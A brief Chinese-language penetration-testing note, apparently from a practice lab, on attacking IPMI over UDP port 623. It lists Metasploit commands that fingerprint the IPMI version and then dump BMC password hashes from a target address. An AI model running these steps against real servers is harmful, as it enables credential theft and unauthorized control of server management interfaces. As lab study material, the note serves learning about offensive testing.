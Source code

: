 # udp 623（IPMI）

(是Bare Metal BMC automation的一个平台)

1. 利用msf获取hash

```bash
1. 首先获取版本
use  auxiliary/scanner/ipmi/ipmi_version
set rhosts 10.129.19.82
run
2. 提取hash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts 10.129.19.82
run
```
